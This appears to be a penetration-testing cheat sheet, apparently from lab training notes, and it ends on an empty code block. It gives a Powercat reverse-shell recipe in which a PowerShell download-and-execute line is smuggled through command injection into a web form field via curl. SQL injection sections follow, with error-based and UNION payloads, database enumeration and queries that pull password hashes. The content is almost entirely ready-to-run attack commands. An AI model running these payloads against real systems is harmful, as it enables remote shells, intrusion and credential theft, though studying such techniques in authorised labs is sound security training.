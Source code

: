 ### Use Powercat to get reverse shell (powershell target)
```bash
cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .
```
Then host a netcat `nc -lvnp 443` and the powercat file `python3 -m http.server 80`
```powershell
IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.45.201/powercat.ps1");powercat -c 192.168.45.201 -p 443 -e powershell
```
Url-encode, then `curl`.
```bash
curl -X POST --data 'Archive=git%3BIEX%20(New-Object%20System.Net.Webclient).DownloadString(%22http%3A%2F%2F192.168.45.201%2Fpowercat.ps1%22)%3Bpowercat%20-c%20192.168.45.201%20-p%20443%20-e%20powershell' http://192.168.45.201:8000/archive
```
Then receive the shell.
## SQL injection
### Common command
For mysql:
```mysql
mysql -u root -p'root' -h 192.168.50.16 -P 3306
select version()
select system_user()
show database
describe mysql.user
SELECT user, authentication_string FROM mysql.user WHERE user = 'offsec';
```
For mssql:
```mysql
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
SELECT @@version;
SELECT name FROM sys.database;
SELECT * FROM offsec.information_schema.tables;
select * from offsec.dbo.users;
```
### Identify SQLi via Error-based Payload
`//` used for terminate SQL query
```mysql
' OR 1=1 -- //
' OR 1=1 in (select @@version) -- //
```
### Union-based Payload
1. The injected **UNION** query has to include the same number of columns as the original query.
2. The data types need to be compatible between each column.
Discover the correct number of columns:
```mysql
' ORDER BY 1 -- //
' ORDER BY 2 -- //
' ORDER BY 3 -- //
...
```
Then move on enumeration by using `UNION`.
```mysql
' UNION SELECT database(), user(), @@version, null, null -- //
' UNION SELECT null, null, database(), user(), @@version  -- //
```
Next, we can enumerate the `information_schema` to get `columns table`
```mysql
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
```
Then query table `users` and columns:`password,username,description`
```mysql
```